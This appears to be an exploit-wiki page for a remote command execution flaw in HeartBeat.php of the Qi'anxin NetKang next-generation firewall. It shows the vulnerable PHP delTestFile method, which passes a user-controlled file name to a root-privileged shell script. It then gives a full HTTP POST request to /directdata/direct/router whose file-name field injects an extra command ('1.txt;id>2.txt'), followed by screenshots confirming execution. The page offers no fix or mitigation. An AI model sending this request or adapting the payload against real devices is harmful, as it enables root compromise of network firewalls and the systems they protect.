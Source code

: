 #NetCon Next Generation Firewall HeartBeat.php Remote Command Execution Vulnerability

## Vulnerability Description

Netcom Next Generation Firewall HeartBeat.php file has a remote command execution vulnerability. The attacker can obtain the server's Root permissions by constructing a request package.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;"> Qi'anxin Netkang next-generation firewall</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649263762930-86ac1706-31bd-42c5-9b5f-822e695eac7b.png)

Files with vulnerability **applications/Models/NS/Rpc/HeartBeat.php**

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649263844774-f32c96ef-f93e-463a-aeee-bb5f7a567718.png)

```php
public function delTestFile($fileName){
	    if(dirname($fileName) == '/var/www/tmp'){
		$cmd = "/bin/rm -f {$fileName}";
		putenv("CMD=$cmd");
		$msg = shell_exec('/var/www/html/scripts/exec_cmd');
	    }
	    return time();
	}
```

Call the method delTestFile, the fileName parameter is controllable, the exec_cmd file called is a Root permission file, and the request package is constructed for command execution

```php
POST /directdata/direct/router HTTP/1.1
Host: 
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"NS_Rpc_HeartBeat","method":"delTestFile","data": ["/var/www/tmp/1.txt;id>2.txt"],"type":"rpc","tid":11,"f8839p7rqtj":"="}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649264137977-dad6f7f8-adce-4189-856b-c564d8ba8a75.png)

Access to the written file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1649264181844-e562d3ea-a6cd-469c-9c8b-3998deed5bc3.png)